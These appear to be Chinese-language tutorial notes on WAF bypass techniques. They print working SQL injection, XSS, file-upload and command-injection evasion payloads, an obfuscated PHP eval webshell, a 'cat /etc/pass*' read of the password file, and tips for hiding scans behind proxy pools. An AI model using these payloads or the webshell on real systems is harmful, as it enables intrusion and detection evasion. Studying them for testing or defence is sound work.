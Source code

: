 # WAF 绕过

两种 waf

- 正则匹配
- 语义分析（较少）（耗时，对业务有影响）

## 安全狗

https://www.safedog.cn/

## sql 注入绕过

**过滤手段**

正则匹配、特征

**使用内联注释绕过**

```
1' /*!11445and*/'1'='1'
```


**正则绕过**

```
SELECT first_name FROM users WHERE user_id='1' REGEXP '%0A%23';
```
## XSS 绕过


不在单点上防御所有安全问题，纵深防御

1. 登陆
2. 发送内容
3. waf
4. 后端代码
5. 内网流量；防火墙
6. 数据库


直接输入 script 语句被拦截

```
<script>alert(1)</script>
```


**使用事件**

```
<svg/onload=alert(1)>
```

**base64 编码绕过**

```
<object data="data:text/html;base64,xxx">
```


## 文件上传绕过

绕后缀


**双写绕过**

```
filename=;filename="one.php"
```

**利用无文件头绕过**

在 http header 后面 post 内容前面加足够多的 1

报文过大，跳过检查

**分块传输绕过**

需要 burp 插件(extender)：chunked-coding-converter


**绕过内容检测**

一句话木马，特征非常明显，容易被拦截

上传免杀一句话

```
<?php
  $name = $_GET[1];
  $name = substr($name,0);
  eval("echo 123;" . $name."echo 456; ")
?>
```
代码的白盒分析
1. 正则匹配
2. 语法分析
  - 数据流分析

**扫描绕过**

1. 挂代理

我们扫描漏洞，会被 waf 封掉 IP，此时我们可以使用代理池

kuaidaili.com

非法爬别人数据是违法的

2. 更换 User-Agent

3. 修改扫描特征的指纹，awvs，nessus

4. 降低扫描速度

5. 多试几款扫描器


手工渗透比较多

## 绕过命令执行

常见执行函数

- system()
- exec()
- passthru()
- popen(), proc_open()
- shell_exec()
- 反引号

命令分隔符

- windows: &&, ||, &, |
- linux: &&, ||, &, |, ;
- php: %0a 换行, %0d 会车

截断符号

```

```

绕过空格

```
cat${IFS}shell.php
{cat,shell.php}
cat<shell.php
```


拼接

```
a=l;cat shel$a.php

```

Base64编码

```
$(echo "xxxx"|base64 -d)
```

单引号绕过

```
cat te''st.txt
```

反斜杠绕过

```
cat te\st.txt
```


通配符绕过

```
cat /etc/pass*
```




## 绕过脚本免杀
